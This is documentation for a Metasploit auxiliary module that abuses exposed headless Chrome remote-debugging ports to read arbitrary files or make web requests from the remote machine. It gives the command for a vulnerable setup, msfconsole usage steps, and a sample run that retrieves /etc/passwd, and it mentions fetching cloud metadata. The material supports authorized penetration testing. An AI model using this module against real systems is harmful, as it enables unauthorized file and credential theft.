 # Chrome Debugger Arbitary File Read / Abitrary Web Request Auxiliary Module

This module takes advantage of misconfigured headless chrome sessions and either retrieves a specified file off the remote file system, or makes a web request from the remote machine.

## Headless Chrome Sessions
	
A vulnerable Headless Chrome session can be started with the following command:

```
$ google-chrome --remote-debugging-port=9222 --headless --remote-debugging-address=0.0.0.0
```

This will start a webserver running on port 9222 for all network interfaces.

## Verification Steps
	
1. Start `msfconsole`
2. Execute `auxiliary/gather/chrome_debugger`
3. Execute `set RHOST $REMOTE_ADDRESS`
4. Execute `set RPORT 9222`
5. Execute either `set FILEPATH $FILE_PATH_ON_REMOTE` or `set URL $URL_FROM_REMOTE`
6. Execute `run`

## Options

* FILEPATH - The file path on the remote you wish to retrieve
* URL - A URL you wish to fetch the contents of from the remote machine

**Note:** One or the other must be set!

## Example Run

```
[*] Attempting Connection to ws://192.168.20.168:9222/devtools/page/CF551031373306B35F961C6C0968DAEC
[*] Opened connection
[*] Attempting to load url file:///etc/passwd
[*] Received Data
[*] Sending request for data
[*] Received Data
[+] Retrieved resource
[*] Auxiliary module execution completed
```

## Notes

This can be useful for retrieving cloud metadata in certain scenarios.  Primarily this module targets developers.
